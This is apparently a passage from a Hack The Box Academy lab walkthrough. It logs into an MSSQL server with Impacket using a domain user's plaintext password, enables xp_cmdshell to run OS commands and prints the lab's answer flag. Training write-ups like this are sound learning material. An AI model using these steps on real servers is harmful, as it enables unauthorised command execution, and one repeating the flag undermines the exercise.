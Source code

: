 **2. SQL Server Authentication:**
```bash
# Connect to ACADEMY-EA-DB01 using Windows authentication
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
# When prompted for password: SQL1234!
```

**Real Lab Output:**
```bash
┌─[htb-student@ea-attack01]─[~]
└──╼ $mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:SQL1234!
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server   (140 3232)
[!] Press help for extra shell commands
SQL>
```

**3. Enable xp_cmdshell and Execute Commands:**
```sql
-- Enable xp_cmdshell (using built-in mssqlclient command)
SQL> enable_xp_cmdshell

-- Read the flag file
SQL> xp_cmdshell type C:\\Users\\damundsen\\Desktop\\flag.txt
```

**Real Lab Output:**
```sql
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL> xp_cmdshell type C:\\Users\\damundsen\\Desktop\\flag.txt

output
--------------------------------------------------------------------------------
1m_the_sQl_@dm1n_n0w!

SQL>
```

**🎯 Answer: `1m_the_sQl_@dm1n_n0w!`**

---